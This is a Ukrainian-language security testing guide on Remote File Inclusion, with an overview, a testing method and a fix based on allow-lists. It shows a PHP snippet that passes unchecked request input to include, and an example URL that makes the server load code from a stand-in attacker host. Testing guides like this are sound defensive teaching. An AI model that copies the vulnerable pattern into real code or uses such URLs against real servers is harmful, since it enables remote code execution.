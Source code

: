 # Тестування віддаленого включення файлів

## Огляд

Уразливість File Inclusion дозволяє зловмиснику включити файл, зазвичай використовуючи механізми «динамічного включення файлу», реалізовані в цільовій програмі. Уразливість виникає через використання введених користувачем даних без належної перевірки.

Це може призвести до чогось схожого на виведення вмісту файлу, але залежно від серйозності це також може призвести до:

* Виконання коду на веб-сервері
* Виконання коду на стороні клієнта, наприклад JavaScript, що може призвести до інших атак, наприклад міжсайтового сценарію (XSS)
* Відмова в обслуговуванні (DoS)
* Розкриття конфіденційної інформації

Віддалене включення файлів (також відоме як RFI) — це процес включення віддалених файлів за допомогою використання вразливих процедур включення, реалізованих у програмі. Ця вразливість виникає, наприклад, коли сторінка отримує як вхідні дані шлях до файлу, який потрібно включити, і цей вхідний сигнал не очищається належним чином, що дозволяє ввести зовнішню URL-адресу. Хоча більшість прикладів вказують на вразливі сценарії PHP, ми повинні мати на увазі, що це також поширене в інших технологіях, таких як JSP, ASP та інші.

## Як тестувати

Оскільки RFI виникає, коли шляхи, передані операторам «include», не очищаються належним чином, у підході тестування чорної скриньки ми повинні шукати сценарії, які приймають імена файлів як параметри. Розглянемо наступний приклад PHP:

***$incfile = $_REQUEST["файл"];
include($incfile.".php");***

У цьому прикладі шлях витягується із HTTP-запиту, і перевірка вхідних даних не виконується (наприклад, шляхом перевірки вхідних даних за списком дозволених), тому цей фрагмент коду стає вразливим до такого типу атаки. Розглянемо таку URL-адресу:

**http://vulnerable_host/vuln_page.php?file=http://attacker_site/malicous_page**

У цьому випадку віддалений файл буде включено, і будь-який код, який міститься в ньому, буде запущено сервером.

## Рішення

Найефективнішим рішенням для усунення вразливості включення файлів є уникнення передачі даних, наданих користувачем, будь-якій файловій системі/фреймворку API. Якщо це неможливо, програма може підтримувати дозволений список файлів, які можуть бути включені сторінкою, а потім використовувати ідентифікатор (наприклад, номер індексу) для доступу до вибраного файлу. Будь-який запит, що містить недійсний ідентифікатор, має бути відхилений, таким чином зловмисники не мають можливості маніпулювати шляхом атаки.
